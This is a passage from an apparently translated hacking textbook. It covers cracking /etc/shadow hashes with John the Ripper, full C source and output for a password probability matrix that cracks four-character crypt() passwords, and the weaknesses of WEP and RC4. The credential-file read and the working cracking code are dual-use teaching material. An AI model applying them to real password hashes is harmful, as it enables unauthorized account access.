-salts:[-]COUNT           load salts with at least COUNT passwords only
-format:NAME              force ciphertext format NAME (DES/BSDI/MD5/BF/AFS/LM)
-savemem:LEVEL            enable memory saving, at LEVEL 1..3
reader@hacking:~/booksrc $ sudo tail -3 /etc/shadow
matrix:$1$zCcRXVsm$GdpHxqC9epMrdQcayUx0//:13763:0:99999:7:::
jose:$1$pRS4.I8m$Zy5of8AtD800SeMgm.2Yg.:13786:0:99999:7:::
reader:U6aMy0wojraho:13764:0:99999:7:::
reader@hacking:~/booksrc $ sudo john /etc/shadow
Loaded 2 passwords with 2 different salts (FreeBSD MD5 [32/32])
guesses: 0  time: 0:00:00:01 0% (2)  c/s: 5522  trying: koko
guesses: 0  time: 0:00:00:03 6% (2)  c/s: 5489  trying: exports
guesses: 0  time: 0:00:00:05 10% (2)  c/s: 5561  trying: catcat
guesses: 0  time: 0:00:00:09 20% (2)  c/s: 5514  trying: dilbert!
guesses: 0  time: 0:00:00:10 22% (2)  c/s: 5513  trying: redrum3
testing7         (jose)
guesses: 1  time: 0:00:00:14 44% (2)  c/s: 5539  trying: KnightKnight
guesses: 1  time: 0:00:00:17 59% (2)  c/s: 5572  trying: Gofish! 
Session aborted
```

在这个输出中，账户 jose 显示的密码是`testing7`。

## 哈希查找表

另一个有趣的密码破解想法是使用巨大的哈希查找表。如果所有可能的密码的哈希值都预先计算并存储在某个可搜索的数据结构中，任何密码都可以在搜索所需的时间内被破解。假设使用二分搜索，这个时间将是 O(log[2] *N*)，其中*N*是条目数。由于*N*在八字符密码的情况下是 95⁸，这相当于 O(8 log[2] 95)，这相当快。

然而，这样的哈希查找表需要大约 100,000 太字节（TB）的存储空间。此外，密码散列算法的设计考虑了这种攻击，并通过盐值来减轻它。由于多个明文密码会散列成具有不同盐的不同密码散列，因此必须为每个盐创建一个单独的查找表。基于 DES 的`crypt()`函数有 4,096 种可能的盐值，这意味着即使对于较小的密钥空间，例如所有可能的四字符密码，哈希查找表也变得不切实际。使用固定的盐，所有可能的四字符密码的单个查找表所需的存储空间大约为 1 吉字节（GB），但由于盐值，单个明文密码有 4,096 种可能的哈希，需要 4,096 个不同的表。这使得所需的存储空间增加到大约 4.6TB，这大大阻止了此类攻击。

## 密码概率矩阵

计算能力和存储空间之间的权衡无处不在。这可以在计算机科学的最基本形式和日常生活中看到。MP3 文件使用压缩来存储高质量的声音文件，在相对较小的空间内，但计算资源的需求增加。便携式计算器通过为正弦和余弦等函数维护查找表来使用这种权衡，以节省计算器进行繁重计算。

这种权衡也可以应用于密码学，被称为时间/空间权衡攻击。虽然赫尔曼（Hellman）针对此类攻击的方法可能更有效率，但以下源代码应该更容易理解。尽管如此，一般原则始终相同：尝试在计算能力和存储空间之间找到最佳平衡点，以便在合理的时间内，使用合理的空间完成穷举暴力攻击。不幸的是，盐的困境仍然存在，因为这种方法仍然需要某种形式的存储。然而，对于`crypt()`风格的密码散列，只有 4,096 种可能的盐，因此可以通过减少所需的存储空间来减轻这个问题的影响，尽管有 4,096 的乘数，但仍然保持合理。

此方法使用了一种损失压缩的形式。在输入密码散列时，而不是有一个精确的散列查找表，将返回几千个可能的明文值。这些值可以快速检查以收敛到原始明文密码，而损失压缩允许大幅减少空间。在下面的演示代码中，使用了所有可能的四字符密码（带有固定的盐）的密钥空间。所需的存储空间减少了 88%，与完整的散列查找表（带有固定的盐）相比，必须暴力破解的密钥空间减少了大约 1,018 倍。在每秒 10,000 次破解的假设下，此方法可以在不到八秒内破解任何四字符密码（带有固定的盐），与需要两小时才能穷举破解相同密钥空间相比，这是一个相当大的速度提升。

此方法构建了一个三维二进制矩阵，将散列值的部分与明文值的部分相关联。在 x 轴上，明文被分成两个对：前两个字符和后两个字符。可能的值被枚举到一个 95²的二进制向量中，长度为 9,025 位（大约 1,129 字节）。在 y 轴上，密文被分成四个三字符块。这些值以相同的方式沿列枚举，但实际上只使用了第三个字符的四个位。这意味着有 64².4，或 16,384 列。z 轴的存在只是为了保持八个不同的二维矩阵，因此对于每个明文对，都有四个。

基本思路是将明文分成两个成对的值，这些值沿着一个向量进行枚举。每个可能的明文都会被散列成密文，密文用于找到矩阵的适当列。然后，矩阵行中的明文枚举位被打开。当密文值被缩减成更小的块时，冲突是不可避免的。

| 明文 | 散列 |
| --- | --- |
| 测试 | je**HEA**X1m66RV. |
| !J)h | je**HEA**38vqlkkQ |
| ".F+ | je**HEA**1Tbde5FE |
| "8,J | je**HEA**nX8kQK3I |

在这种情况下，`HEA`对应的列将打开与明文对`te, !J, "., 和 "8`对应的位，因为这些明文/散列对被添加到矩阵中。

在矩阵完全填满后，当输入一个如 `jeHEA38vqlkkQ` 这样的哈希时，将查找 `HEA` 的列，二维矩阵将返回明文前两个字符的值 `te, !J`, "., 和 `"8`。对于前两个字符，有四个这样的矩阵，使用从字符 2 到 4、4 到 6、6 到 8 和 8 到 10 的密文子串，每个矩阵都有不同的一组可能的前两个字符明文值向量。每个向量被提取出来，并通过位与操作组合。这将仅留下与每个密文子串中列出的明文对对应的位被打开。对于明文最后两个字符也有四个这样的矩阵。

矩阵的大小是由鸽巢原理确定的。这是一个简单的原理，其表述为：如果将 *k* + 1 个对象放入 *k* 个盒子中，至少有一个盒子将包含两个对象。因此，为了获得最佳结果，目标是让每个向量中的 1s 数量略少于一半。由于矩阵中将放入 95⁴，即 81,450,625 个条目，因此需要大约两倍数量的空位来实现 50% 的饱和度。由于每个向量有 9,025 个条目，因此应有大约 (95⁴ · 2) / 9025 列。这计算出来大约是 18,000 列。由于正在使用三个字符的密文子串作为列，因此前两个字符和第三个字符的前四个位被用来提供 64² · 4，即大约 16,000 列（密文哈希的每个字符都有 64 种可能的值）。这应该足够接近，因为当位被添加两次时，重叠被忽略。在实践中，每个向量最终大约有 42% 的 1s 饱和度。

由于为单个密文提取了四个向量，因此每个向量中任何一位为 1 的概率大约是 0.42⁴，即大约 3.11%。这意味着，平均而言，明文前两个字符的 9,025 种可能性减少了大约 97%，变为 280 种可能性。这也适用于最后两个字符，提供了大约 280²，即 78,400 个可能的明文值。在每秒 10,000 次破解的假设下，这个减少后的密钥空间将在 8 秒内被检查完毕。

当然，这种方法也有缺点。首先，创建矩阵所需的时间至少与原始的暴力攻击所需的时间一样长；然而，这是一个一次性成本。此外，盐值仍然倾向于防止任何类型的存储攻击，即使是在减少存储空间需求的情况下。

以下两个源代码列表可以用来创建密码概率矩阵并使用它破解密码。第一个列表将生成一个可以用来破解所有可能的四个字符密码（盐值为 `je`）的矩阵。第二个列表将使用生成的矩阵实际进行密码破解。

### ppm_gen.c

```
/*********************************************************\
*  Password Probability Matrix   *    File: ppm_gen.c     *
***********************************************************
*                                                         *
*  Author:        Jon Erickson <matrix@phiral.com>        *
*  Organization:  Phiral Research Laboratories            *
*                                                         *
*  This is the generate program for the PPM proof of      *
*  concept.  It generates a file called 4char.ppm, which  *
*  contains information regarding all possible 4-         *
*  character passwords salted with 'je'.  This file can   *
*  be used to quickly crack passwords found within this   *
*  keyspace with the corresponding ppm_crack.c program.   *
*                                                         *
\*********************************************************/

#define _XOPEN_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

#define HEIGHT 16384
#define WIDTH  1129
#define DEPTH  8
#define SIZE HEIGHT * WIDTH * DEPTH

/* Map a single hash byte to an enumerated value. */
int enum_hashbyte(char a) {
   int i, j;
   i = (int)a;
   if((i >= 46) && (i <= 57))
      j = i - 46;
   else if ((i >= 65) && (i <= 90))
      j = i - 53;
   else if ((i >= 97) && (i <= 122))
      j = i - 59;
   return j;
}

/* Map 3 hash bytes to an enumerated value. */
int enum_hashtriplet(char a, char b, char c) {
   return (((enum_hashbyte(c)%4)*4096)+(enum_hashbyte(a)*64)+enum_hashbyte(b));
}
/* Barf a message and exit. */
void barf(char *message, char *extra) {
   printf(message, extra);
   exit(1);
}

/* Generate a 4-char.ppm file with all possible 4-char passwords (salted w/ je). */
int main() {
   char plain[5];
   char *code, *data;
   int i, j, k, l;
   unsigned int charval, val;
   FILE *handle;
   if (!(handle = fopen("4char.ppm", "w")))
      barf("Error: Couldn't open file '4char.ppm' for writing.\n", NULL);

   data = (char *) malloc(SIZE);
   if (!(data))
      barf("Error: Couldn't allocate memory.\n", NULL);

   for(i=32; i<127; i++) {
      for(j=32; j<127; j++) {
         printf("Adding %c%c** to 4char.ppm..\n", i, j);
         for(k=32; k<127; k++) {
            for(l=32; l<127; l++) {

               plain[0]  = (char)i; // Build every
               plain[1]  = (char)j; // possible 4-byte
               plain[2]  = (char)k; // password.
               plain[3]  = (char)l;
               plain[4]  = '\0';
               code = crypt((const char *)plain, (const char *)"je"); // Hash it.

               /* Lossfully store statistical info about the pairings. */
               val = enum_hashtriplet(code[2], code[3], code[4]); // Store info about
 bytes 2-4.

               charval = (i-32)*95 + (j-32); // First 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));
               val += (HEIGHT * 4);
               charval = (k-32)*95 + (l-32); // Last 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));

               val = HEIGHT + enum_hashtriplet(code[4], code[5], code[6]); // bytes 4-6
               charval = (i-32)*95 + (j-32); // First 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));
               val += (HEIGHT * 4);
               charval = (k-32)*95 + (l-32); // Last 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));

               val = (2 * HEIGHT) + enum_hashtriplet(code[6], code[7], code[8]); //
 bytes 6-8
               charval = (i-32)*95 + (j-32); // First 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));
               val += (HEIGHT * 4);
               charval = (k-32)*95 + (l-32); // Last 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));

               val = (3 * HEIGHT) + enum_hashtriplet(code[8], code[9], code[10]);
 // bytes 8-10
               charval = (i-32)*95 + (j-32); // First 2 plaintext chars
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));
               val += (HEIGHT * 4);
               charval = (k-32)*95 + (l-32); // Last 2 plaintext bytes
               data[(val*WIDTH)+(charval/8)] |=  (1<<(charval%8));
            }
         }
      }
   }
   printf("finished.. saving..\n");
   fwrite(data, SIZE, 1, handle);
   free(data);
   fclose(handle); 
}
```

第一段代码，`ppm_gen.c`，可以用来生成一个四字符密码概率矩阵，如下面的输出所示。传递给 GCC 的`-O3`选项告诉它在编译时优化代码以提高速度。

```
reader@hacking:~/booksrc $ gcc -O3 -o ppm_gen ppm_gen.c -lcrypt
reader@hacking:~/booksrc $ ./ppm_gen
Adding   ** to 4char.ppm..
Adding  !** to 4char.ppm..
Adding  "** to 4char.ppm..

.:[ output trimmed ]:.

Adding ~|** to 4char.ppm..
Adding ~}** to 4char.ppm..
Adding ~~** to 4char.ppm..
finished.. saving..
@hacking:~ $ ls -lh 4char.ppm
-rw-r--r-- 1 142M 2007-09-30 13:56 4char.ppm
reader@hacking:~/booksrc $
```

142MB 的 4char.ppm 文件包含了每个可能的四字符密码的明文和哈希数据之间的松散关联。然后，这些数据可以由下一个程序用来快速破解那些能够阻止字典攻击的四字符密码。

### ppm_crack.c

```
/*********************************************************\
*  Password Probability Matrix   *    File: ppm_crack.c   *
***********************************************************
*                                                         *
*  Author:        Jon Erickson <matrix@phiral.com>        *
*  Organization:  Phiral Research Laboratories            *
*                                                         *
*  This is the crack program for the PPM proof of concept.*
*  It uses an existing file called 4char.ppm, which       *
*  contains information regarding all possible 4-         *
*  character passwords salted with 'je'.  This file can   *
*  be generated with the corresponding ppm_gen.c program. *
*                                                         *
\*********************************************************/

#define _XOPEN_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

#define HEIGHT 16384
#define WIDTH  1129
#define DEPTH 8
#define SIZE HEIGHT * WIDTH * DEPTH
#define DCM HEIGHT * WIDTH

/* Map a single hash byte to an enumerated value. */
int enum_hashbyte(char a) {
   int i, j;
   i = (int)a;
   if((i >= 46) && (i <= 57))
      j = i - 46;
   else if ((i >= 65) && (i <= 90))
      j = i - 53;
   else if ((i >= 97) && (i <= 122))
      j = i - 59;
   return j;
}

/* Map 3 hash bytes to an enumerated value. */
int enum_hashtriplet(char a, char b, char c) {
   return (((enum_hashbyte(c)%4)*4096)+(enum_hashbyte(a)*64)+enum_hashbyte(b));
}

/* Merge two vectors. */
void merge(char *vector1, char *vector2) {
   int i;
   for(i=0; i < WIDTH; i++)
      vector1[i] &= vector2[i];
}

/* Returns the bit in the vector at the passed index position */
int get_vector_bit(char *vector, int index) {
   return ((vector[(index/8)]&(1<<(index%8)))>>(index%8));
}

/* Counts the number of plaintext pairs in the passed vector */
int count_vector_bits(char *vector) {
   int i, count=0;
   for(i=0; i < 9025; i++)
      count += get_vector_bit(vector, i);
   return count;
}

/* Print the plaintext pairs that each ON bit in the vector enumerates. */
void print_vector(char *vector) {
   int i, a, b, val;
   for(i=0; i < 9025; i++) {
      if(get_vector_bit(vector, i) == 1) { // If bit is on,
         a = i / 95;                  // calculate the
         b = i - (a * 95);            // plaintext pair
         printf("%c%c ",a+32, b+32);  // and print it.
      }
   }
   printf("\n");
}

/* Barf a message and exit. */
void barf(char *message, char *extra) {
   printf(message, extra);
   exit(1);
}

/* Crack a 4-character password using generated 4char.ppm file. */
int main(int argc, char *argv[]) {
  char *pass, plain[5];
  unsigned char bin_vector1[WIDTH], bin_vector2[WIDTH], temp_vector[WIDTH];
  char prob_vector1[2][9025];
  char prob_vector2[2][9025];
  int a, b, i, j, len, pv1_len=0, pv2_len=0;
  FILE *fd;

  if(argc < 1)
     barf("Usage: %s <password hash>  (will use the file 4char.ppm)\n", argv[0]);

  if(!(fd = fopen("4char.ppm", "r")))
     barf("Fatal: Couldn't open PPM file for reading.\n", NULL);

  pass = argv[1]; // First argument is password hash

  printf("Filtering possible plaintext bytes for the first two characters:\n");

  fseek(fd,(DCM*0)+enum_hashtriplet(pass[2], pass[3], pass[4])*WIDTH, SEEK_SET);
  fread(bin_vector1, WIDTH, 1, fd); // Read the vector associating bytes 2-4 of hash.

  len = count_vector_bits(bin_vector1);
  printf("only 1 vector of 4:\t%d plaintext pairs, with %0.2f%% saturation\n", len,
 len*100.0/
9025.0);

  fseek(fd,(DCM*1)+enum_hashtriplet(pass[4], pass[5], pass[6])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associating bytes 4-6 of hash.
  merge(bin_vector1, temp_vector);  // Merge it with the first vector.

  len = count_vector_bits(bin_vector1);
  printf("vectors 1 AND 2 merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  fseek(fd,(DCM*2)+enum_hashtriplet(pass[6], pass[7], pass[8])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associating bytes 6-8 of hash.
  merge(bin_vector1, temp_vector);  // Merge it with the first two vectors.

  len = count_vector_bits(bin_vector1);
  printf("first 3 vectors merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  fseek(fd,(DCM*3)+enum_hashtriplet(pass[8], pass[9],pass[10])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associatind bytes 8-10 of hash.
  merge(bin_vector1, temp_vector);  // Merge it with the othes vectors.

  len = count_vector_bits(bin_vector1);
  printf("all 4 vectors merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  printf("Possible plaintext pairs for the first two bytes:\n");
  print_vector(bin_vector1);

  printf("\nFiltering possible plaintext bytes for the last two characters:\n");

  fseek(fd,(DCM*4)+enum_hashtriplet(pass[2], pass[3], pass[4])*WIDTH, SEEK_SET);
  fread(bin_vector2, WIDTH, 1, fd); // Read the vector associating bytes 2-4 of hash.

  len = count_vector_bits(bin_vector2);
  printf("only 1 vector of 4:\t%d plaintext pairs, with %0.2f%% saturation\n", len,
 len*100.0/
9025.0);

  fseek(fd,(DCM*5)+enum_hashtriplet(pass[4], pass[5], pass[6])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associating bytes 4-6 of hash.
  merge(bin_vector2, temp_vector);  // Merge it with the first vector.

  len = count_vector_bits(bin_vector2);
  printf("vectors 1 AND 2 merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  fseek(fd,(DCM*6)+enum_hashtriplet(pass[6], pass[7], pass[8])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associating bytes 6-8 of hash.
  merge(bin_vector2, temp_vector);  // Merge it with the first two vectors.

  len = count_vector_bits(bin_vector2);
  printf("first 3 vectors merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  fseek(fd,(DCM*7)+enum_hashtriplet(pass[8], pass[9],pass[10])*WIDTH, SEEK_SET);
  fread(temp_vector, WIDTH, 1, fd); // Read the vector associatind bytes 8-10 of hash.
  merge(bin_vector2, temp_vector);  // Merge it with the othes vectors.

  len = count_vector_bits(bin_vector2);
  printf("all 4 vectors merged:\t%d plaintext pairs, with %0.2f%% saturation\n", len, 
len*100.0/9025.0);

  printf("Possible plaintext pairs for the last two bytes:\n");
  print_vector(bin_vector2);
  printf("Building probability vectors...\n");
  for(i=0; i < 9025; i++) { // Find possible first two plaintext bytes.
    if(get_vector_bit(bin_vector1, i)==1) {;
      prob_vector1[0][pv1_len] = i / 95;
      prob_vector1[1][pv1_len] = i - (prob_vector1[0][pv1_len] * 95);
      pv1_len++;
    }
  }
  for(i=0; i < 9025; i++) { // Find possible last two plaintext bytes.
    if(get_vector_bit(bin_vector2, i)) {
      prob_vector2[0][pv2_len] = i / 95;
      prob_vector2[1][pv2_len] = i - (prob_vector2[0][pv2_len] * 95);
      pv2_len++;
    }
  }

  printf("Cracking remaining %d possibilites..\n", pv1_len*pv2_len);
  for(i=0; i < pv1_len; i++) {
    for(j=0; j < pv2_len; j++) {
      plain[0] = prob_vector1[0][i] + 32;
      plain[1] = prob_vector1[1][i] + 32;
      plain[2] = prob_vector2[0][j] + 32;
      plain[3] = prob_vector2[1][j] + 32;
      plain[4] = 0;
      if(strcmp(crypt(plain, "je"), pass) == 0) {
        printf("Password :  %s\n", plain);
        i = 31337;
        j = 31337;
      }
    }
  }
  if(i < 31337)
    printf("Password wasn't salted with 'je' or is not 4 chars long.\n");

  fclose(fd); 
}
```

第二段代码，`ppm_crack.c`，可以在几秒钟内破解`h4R%`这个棘手的密码：

```
reader@hacking:~/booksrc $ ./crypt_test h4R% je
password "h4R%" with salt "je" hashes to ==> jeMqqfIfPNNTE
reader@hacking:~/booksrc $ gcc -O3 -o ppm_crack ppm_crack.c -lcrypt
reader@hacking:~/booksrc $ ./ppm_crack jeMqqfIfPNNTE
Filtering possible plaintext bytes for the first two characters:
only 1 vector of 4:     3801 plaintext pairs, with 42.12% saturation
vectors 1 AND 2 merged: 1666 plaintext pairs, with 18.46% saturation
first 3 vectors merged: 695 plaintext pairs, with 7.70% saturation
all 4 vectors merged:   287 plaintext pairs, with 3.18% saturation
Possible plaintext pairs for the first two bytes:
 4  9  N !& !M !Q "/ "5 "W #K #d #g #p $K $O $s %) %Z %\ %r &( &T '- '0 '7 'D
'F (  (v (| )+ ). )E )W *c *p *q *t *x +C -5 -A -[ -a .% .D .S .f /t 02 07 0? 
0e 0{ 0| 1A 1U 1V 1Z 1d 2V 2e 2q 3P 3a 3k 3m 4E 4M 4P 4X 4f 6  6, 6C 7: 7@ 7S 
7z 8F 8H 9R 9U 9_ 9~ :- :q :s ;G ;J ;Z ;k <! <8 =! =3 =H =L =N =Y >V >X ?1 @#
@W @v @| AO B/ B0 BO Bz C( D8 D> E8 EZ F@ G& G? Gj Gy H4 I@ J  JN JT JU Jh Jq 
Ks Ku M) M{ N, N: NC NF NQ Ny O/ O[ P9 Pc Q! QA Qi Qv RA Sg Sv T0 Te U& U> UO 
VT V[ V] Vc Vg Vi W: WG X" X6 XZ X` Xp YT YV Y^ Yl Yy Y{ Za $ [* [9 [m [z \" \
+ \C \O \w  }+ }? }y ~L ~m 

Filtering possible plaintext bytes for the last two characters:
only 1 vector of 4:     3821 plaintext pairs, with 42.34% saturation
vectors 1 AND 2 merged: 1677 plaintext pairs, with 18.58% saturation
first 3 vectors merged: 713 plaintext pairs, with 7.90% saturation
all 4 vectors merged:   297 plaintext pairs, with 3.29% saturation
Possible plaintext pairs for the last two bytes:
 !  & != !H !I !K !P !X !o !~ "r "{ "} #% #0 $5 $] %K %M %T &" &% &( &0 &4 &I 
&q &} 'B 'Q 'd )j )w *I *] *e *j *k *o *w *| +B +W ,' ,J ,V -z .  .$ .T /' /_ 
0Y 0i 0s 1! 1= 1l 1v 2- 2/ 2g 2k 3n 4K 4Y 4\ 4y 5- 5M 5O 5} 6+ 62 6E 6j 7* 74 
8E 9Q 9\ 9a 9b :8 :; :A :H :S :w ;" ;& ;L <L <m <r <u =, =4 =v >v >x ?& ?` ?j 
?w @0 A* B  B@ BT C8 CF CJ CN C} D+ D? DK Dc EM EQ FZ GO GR H) Hj I: I> J( J+ 
J3 J6 Jm K# K) K@ L, L1 LT N* NW N` O= O[ Ot P: P\ Ps Q- Qa R% RJ RS S3 Sa T! 
T$ T@ TR T_ Th U" U1 V* V{ W3 Wy Wz X% X* Y* Y? Yw Z7 Za Zh Zi Zm [F \( \3 \5 \
_ \a \b \| ]$ ]. ]2 ]? ]d ^ ^~ `1 `F `f `y a8 a= aI aK az b, b- bS bz c( cg dB 
e, eF eJ eK eu fT fW fo g( g> gW g\ h$ h9 h: h@ hk i? jN ji jn k= kj l7 lo m< 
m= mT me m| m} n% n? n~ o  oF oG oM p" p9 p\ q} r6 r= rB sA sN s{ s~ tX tp u  
u2 uQ uU uk v# vG vV vW vl w* w> wD wv x2 xA y: y= y? yM yU yX zK zv {# {) {= 
{O {m |I |Z }. }; }d ~+ ~C ~a 
Building probability vectors...
Cracking remaining 85239 possibilites..
Password :  h4R%
reader@hacking:~/booksrc $
```

这些程序是概念验证型黑客攻击，利用了哈希函数提供的位扩散。还有其他时间-空间权衡攻击，其中一些已经变得相当流行。RainbowCrack 是一个流行的工具，它支持多种算法。如果你想了解更多，请咨询互联网。

# 无线 802.11b 加密

无线 802.11b 的安全性一直是一个大问题，主要是因为其缺乏安全性。用于无线的*有线等效保密（WEP）*的弱点对整体的不安全性贡献很大。还有一些其他细节，在无线部署过程中有时会被忽略，也可能导致重大漏洞。

无线网络存在于第 2 层是这些细节之一。如果无线网络没有被 VLAN 隔离或防火墙保护，那么与无线接入点关联的攻击者可以通过 ARP 重定向将所有有线网络流量重定向到无线网络。这一点，加上将无线接入点连接到内部私有网络的倾向，可能导致一些严重的安全漏洞。

当然，如果启用了 WEP，只有具有正确 WEP 密钥的客户端才能被允许与接入点关联。如果 WEP 是安全的，那么就不应该有任何关于恶意攻击者关联并造成混乱的担忧。这引发了一个问题：“WEP 有多安全？”

## 有线等效保密

WEP 原本是一个旨在提供与有线接入点相当安全性的加密方法。它最初设计为 40 位密钥；后来，WEP2 出现，将密钥大小增加到 104 位。所有的加密都是基于每个数据包进行的，因此每个数据包本质上是一个单独的明文消息，需要发送。这个数据包将被称为*M*。

首先，计算消息 M 的校验和，以便稍后可以检查消息的完整性。这是使用名为 CRC32 的 32 位循环冗余校验函数完成的。这个校验和将被称为*CS*，所以 CS = CRC32(M)。这个值将被附加到消息的末尾，从而构成明文消息 P：


图 0x700-3。

然后，将种子值 S 输入到 RC4 中，这将生成一个密钥流。这个密钥流与明文消息 P 进行 XOR 运算，以产生密文 C。IV 被添加到密文之前，整个内容被另一个头部封装，并通过无线电链路发送出去。


图 0x700-4。

当接收方收到一个 WEP 加密的数据包时，过程简单地相反。接收方从消息中提取 IV，然后将 IV 与其自己的 WEP 密钥连接起来，以产生种子值 S。如果发送方和接收方都有相同的 WEP 密钥，种子值将是相同的。这个种子值再次输入到 RC4 中，以产生相同的密钥流，这个密钥流与加密消息的其余部分进行 XOR 运算。这将产生原始的明文消息，由数据包消息 M 和完整性校验和 CS 连接而成。接收方然后使用相同的 CRC32 函数重新计算 M 的校验和，并检查计算值是否与接收到的 CS 值匹配。如果校验和匹配，则数据包被传递。否则，存在过多的传输错误或 WEP 密钥不匹配，数据包将被丢弃。

这基本上就是 WEP 的精髓。

## RC4 流密码

RC4 是一个非常简单的算法。它由两个算法组成：密钥调度算法（KSA）和伪随机生成算法（PRGA）。这两个算法都使用一个*8-by-8 S-box*，这只是一个包含 256 个数字的数组，这些数字都是唯一的，并且数值范围从 0 到 255。简单来说，从 0 到 255 的所有数字都存在于这个数组中，但它们以不同的方式混合在一起。KSA 根据输入的种子值对 S-box 进行初始打乱，种子值可以长达 256 位。

首先，S 盒数组用从 0 到 255 的顺序值填充。这个数组将被恰当地命名为*S*。然后，另一个 256 字节的数组用种子值填充，必要时重复，直到整个数组被填满。这个数组将被命名为*K*。然后使用以下伪代码对*S*数组进行打乱。

```
j = 0;
for i = 0 to 255
{
  j = (j + S[i] + K[i]) mod 256;
  swap S[i] and S[j];
}
```

完成这些后，S 盒根据种子值进行混合。这就是密钥调度算法。相当简单。

现在当需要密钥流数据时，使用伪随机生成算法（PRGA）。此算法有两个计数器，`i`和`j`，最初都初始化为`0`。之后，对于每个密钥流字节，使用以下伪代码。

```
i = (i + 1) mod 256;
j = (j + S[i]) mod 256;
swap S[i] and S[j];
t = (S[i] + S[j]) mod 256;
Output the value of S[t];
```

`S[t]`输出的字节是密钥流的第一个字节。此算法会重复用于生成额外的密钥流字节。

RC4 足够简单，可以轻松记忆并在现场实现，如果使用得当，它相当安全。然而，RC4 用于 WEP 的方式存在一些问题。

# WEP 攻击

WEP 的安全问题有几个。公平地说，它从未打算成为一个强大的加密协议，而是一种提供有线等效性的方式，正如其缩写词所暗示的。除了与关联和身份相关的安全弱点外，加密协议本身也存在几个问题。其中一些问题源于使用 CRC32 作为消息完整性的校验和函数，而其他问题则源于 IV 的使用方式。

## 离线暴力破解攻击

暴力破解始终是针对任何计算安全密码系统的可能攻击。唯一剩下的问题是它是否是一种实际可行的攻击。对于 WEP，实际的离线暴力破解方法很简单：捕获几个数据包，然后尝试使用每个可能的关键字解密这些数据包。接下来，重新计算数据包的校验和，并将其与原始校验和进行比较。如果它们匹配，那么这很可能是正确的密钥。通常，这至少需要两个数据包，因为很可能单个数据包可以用无效的密钥解密，但校验和仍然有效。

然而，假设每秒尝试 10,000 次破解，通过 40 位密钥空间进行暴力破解将需要超过三年时间。实际上，现代处理器每秒可以完成超过 10,000 次破解，但即使每秒 200,000 次，这也需要几个月的时间。根据攻击者的资源和投入，这种攻击可能可行也可能不可行。

Tim Newsham 提供了一种有效的破解方法，该方法攻击了大多数 40 位（市场上标称为 64 位）卡和接入点使用的基于密码的密钥生成算法的弱点。他的方法有效地将 40 位密钥空间减少到 21 位，在每秒 10,000 次破解的假设下，可以在几分钟内破解（在现代处理器上只需几秒钟）。有关他的方法的更多信息，请参阅 [`www.lava.net/~newsham/wlan`](http://www.lava.net/~newsham/wlan)。

对于 104 位（市场上标称为 128 位）的 WEP 网络，暴力破解根本不可行。

## 密钥流重复使用

WEP 的另一个潜在问题是密钥流的重复使用。如果两个明文（*P*）与相同的密钥流进行 XOR 操作以生成两个不同的密文（*C*），则将这些密文进行 XOR 操作将取消密钥流，导致两个明文相互 XOR。

| *C[1] = P[1]* ⊕ RC4(seed) |
| --- |
| *C[2] = P[2]* ⊕ RC4(seed) |
| *C[1] ⊕ C[2] = [P[1]* ⊕ RC4(seed)] ⊕ [*P[2]* ⊕ RC4(seed)] = *P[1] ⊕ P[2]* |

从这里开始，如果已知其中一个明文，另一个可以轻易恢复。此外，由于在这种情况下明文是具有已知且相当可预测结构的互联网数据包，可以采用各种技术来恢复原始的明文。

初始向量（IV）旨在防止这类攻击；如果没有它，每个数据包都会使用相同的密钥流进行加密。如果为每个数据包使用不同的 IV，则数据包的密钥流也将不同。然而，如果重复使用相同的 IV，则两个数据包都将使用相同的密钥流进行加密。这是一个容易检测的条件，因为 IV 包含在加密数据包的明文中。此外，用于 WEP 的 IV 长度仅为 24 位，这几乎保证了 IV 将被重复使用。假设 IV 是随机选择的，从统计上看，在 5,000 个数据包之后应该会出现密钥流重复的情况。

这个数字看起来出奇的小，是由于一个被称为 *生日悖论* 的反直觉概率现象。这个悖论表明，如果有 23 个人在同一房间里，其中两个人应该有相同的生日。在 23 个人中，有 (23 · 22) / 2，即 253 种可能的配对。每个配对的成功概率为 1/365，或大约 0.27%，这对应于失败的概率为 1 – (1 / 365)，或大约 99.726%。通过将这个概率提高到 253 次幂，整体失败概率被证明约为 49.95%，这意味着成功的概率略高于 50%。

与 IV 冲突的情况作用相同。在 5,000 个数据包中，有(5000 · 4999) / 2，即 12,497,500，可能的配对。每一对有 1 – (1 / 2²⁴)的失败概率。当这个概率被提升到可能配对的数量时，整体失败概率大约是 47.5%，这意味着在 5,000 个数据包中有 52.5%的几率发生 IV 冲突：



在发现 IV 冲突后，可以通过对明文结构的合理猜测，通过将两个密文进行 XOR 运算来揭示原始明文。此外，如果已知其中一个明文，可以通过简单的 XOR 运算恢复另一个明文。获取已知明文的一种方法可能是通过垃圾邮件，攻击者发送垃圾邮件，受害者通过加密无线连接检查邮件。

## 基于 IV 的解密字典表

